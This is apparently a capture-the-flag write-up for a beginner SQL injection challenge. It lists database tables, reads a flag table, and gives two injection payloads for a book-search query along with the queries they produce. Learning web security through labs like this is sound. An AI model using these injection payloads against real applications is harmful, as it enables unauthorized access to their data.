 # Part 1:
## Get more information about the database tables
- Use a select query from information_schema to get the table names
```
SELECT table_name FROM information_schema.tables;

...SNIP...
basic_table
basic_table_names
flag_table
```

## Investigate flag_table
- Use a select query to get all the rows from flag_table
```
SELECT * FROM flag_table;
b0ctf{you_found_the_flag!}
```

# Part 2:
- This is an actual SQL injection and you're given the query as a hint.
- First of all just looking at the table, it looks incomplete the IDs go from 2 to 4 and 5 to 9 so we're missing information.
- If you look closely it's the same table as the example from the index
- To check if this is vulnerable to SQL injection, just put a `'` into the search bar.
    - We get an error so yes it is. (It's also an SQL injection example so of course it is I'm just adding this so you can check when you solve other CTF challenges)

- Here are 2 solutions:
1. ';#
    - The query for this turns into: `SELECT title, author FROM books WHERE title LIKE '%`';#`%' AND pages <= 400;`
2. ' OR pages >= 500 OR author LIKE ';
    - The query for this turns into: `SELECT title, author FROM books WHERE title LIKE '`%' OR pages >= 500 OR author LIKE '`%' AND pages <= 400;`

